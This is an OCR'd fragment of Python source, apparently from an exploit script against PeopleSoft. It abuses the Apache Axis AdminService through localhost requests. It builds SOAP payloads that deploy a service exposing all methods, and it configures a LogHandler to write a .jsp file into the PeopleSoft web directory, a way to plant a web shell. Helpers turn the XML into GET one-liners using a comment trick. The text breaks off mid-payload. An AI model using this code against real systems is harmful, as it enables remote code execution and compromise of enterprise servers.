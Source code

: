 ```py

    def url_service(self, payload):
        return 'http://localhost:%s/pspc/services/AdminService?method=%s' % (
            self.local_port,
            urllib.parse.quote_plus(self.psoap(payload))
        )

    def war_path(self, name):
        # This is just a guess from the few PeopleSoft instances we audited.
        # It might be wrong.
        suffix = '.war' if self.version and self.version >= '8.50' else ''
        return './applications/peoplesoft/%s%s' % (name, suffix)

    def pxml(self, payload):    # 利用Axis的trick，将本需要POST发送的XML通过对应格式的GET请求发送出去
        """Converts an XML payload into a one-liner.
        """
        payload = payload.strip().replace('\n', ' ')
        payload = re.sub('\s+<', '<', payload, flags=re.S)
        payload = re.sub('\s+', ' ', payload, flags=re.S)
        print(payload)
        return payload

    def psoap(self, payload):
        """Converts a SOAP payload into a one-liner, including the comment trick
        to allow attributes.
        """
        payload = self.pxml(payload)
        payload = '!-->%s' % payload[:-1]
        return payload

    def soap_service_deploy(self):
        """SOAP payload to deploy the service.
        """
        return """
        <ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/">
            <ns1:service name="%s" provider="java:RPC">
                <ns1:parameter name="className" value="%s"/>
                <ns1:parameter name="allowedMethods" value="*"/>
            </ns1:service>
        </ns1:deployment>
        """ % (self.service_name, CLASS_NAME)
        
    def soap_service_deploy2(self):
        """SOAP payload to deploy the service.
        """
        return """
        <ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/">
           <ns1:service name="%s" provider="java:RPC">
              <requestFlow>
                 <handler type="RandomLog"/>
             </requestFlow>
             <ns1:parameter name="className" value="java.util.Random"/>
             <ns1:parameter name="allowedMethods" value="*"/>
          </ns1:service>
          <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
             <parameter name="LogHandler.fileName" value="./applications/peoplesoft/PSOL/test1.jsp" />   
             <parameter name="LogHandler.writeToConsole" value="false" /> 
          </handler>
```